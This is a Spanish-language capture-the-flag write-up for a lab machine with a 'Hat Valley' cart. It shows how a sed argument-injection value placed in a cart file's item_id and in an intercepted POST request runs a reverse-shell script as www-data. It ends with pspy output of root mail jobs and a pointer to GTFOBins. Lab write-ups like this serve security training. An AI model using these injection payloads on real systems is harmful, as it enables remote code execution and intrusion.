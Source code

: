 - Luego, elegimos cualquier artículo de la página web y lo agregamos al carrito.

- Ahora, buscamos el `archivo` que se generó en el directorio "/var/www/store/cart"

- Dado que no tenemos permisos de escritura en el archivo que se generó, copiamos su contenido en un archivo que crearemos llamado "temp".

- Ahora eliminamos el archivo original y renombramos el archivo "temp" al que tenía el original.

- Modificamos el contenido del archivo para que el comando `"sed"` apunte a la reverse shell que acabamos de crear:

```js
***Hat Valley Cart***
item_id=2' -e "1e /tmp/shell.sh" /tmp/shell.sh '&item_name=Palm Tree Cap&item_brand=Kool Kats&item_price=$48.50
```

- Ahora en la página de la tienda, nos vamos al `carrito` e intentamos eliminar el artículo, interceptando todo esto con Burpsuite.

- En los datos pasados por POST, modificamos para que el `"item_id"` haga lo mismo que le pusimos en el archivo, quedando de la siguiente forma:


```js
item=2'+-e+"1e+/tmp/shell.sh"+/tmp/shell.sh+'&user=b936-968a-c77-259f&action=delete_item
```

- Ahora, al ejecutar la petición, si estamos en escucha en el puerto que establecimos recibirimos la reverse shell como el usuaario `"www-data"`.

- Enumeramos los procesos que se ejecutan en el sistema en segundo plano con [Pspy](https://github.com/DominicBreuker/pspy/releases) 

- Vemos lo siguiente:


```js
2023/03/07 10:20:01 CMD: UID=0     PID=12453  | /bin/bash /root/scripts/restore.sh 
2023/03/07 10:20:01 CMD: UID=0     PID=12456  | /usr/sbin/CRON -f -P 
2023/03/07 10:20:01 CMD: UID=0     PID=12457  | /usr/sbin/sendmail -FCronDaemon -i -B8BITMIME -oem root 
2023/03/07 10:20:01 CMD: UID=0     PID=12458  | mail -s Leave Request:  christine 
2023/03/07 10:20:01 CMD: UID=0     PID=12459  | /usr/sbin/sendmail -oi -f root@awkward -t 
2023/03/07 10:20:01 CMD: UID=0     PID=12460  | cleanup -z -t unix -u -c 
2023/03/07 10:20:01 CMD: UID=0     PID=12461  | /usr/lib/postfix/sbin/master -w 
2023/03/07 10:20:01 CMD: UID=0     PID=12462  | /bin/bash /root/scripts/notify.sh 
2023/03/07 10:20:01 CMD: UID=0     PID=12466  | 
2023/03/07 10:20:01 CMD: UID=0     PID=12465  | 
2023/03/07 10:20:01 CMD: UID=0     PID=12463  | /bin/bash /root/scripts/notify.sh 
2023/03/07 10:20:01 CMD: UID=0     PID=12468  | mail -s Leave Request: bean.hill christine 
2023/03/07 10:20:01 CMD: UID=???   PID=12467  | ???
```

- Como se ve, se están mandando `mails` como "root", esto podríamos explotarlo de una forma contemplada en [mail | GTFOBins](https://gtfobins.github.io/gtfobins/mail/) , sin embargo, no sabemos el contenido que se está enviando en los emails ni de donde los está sacando.
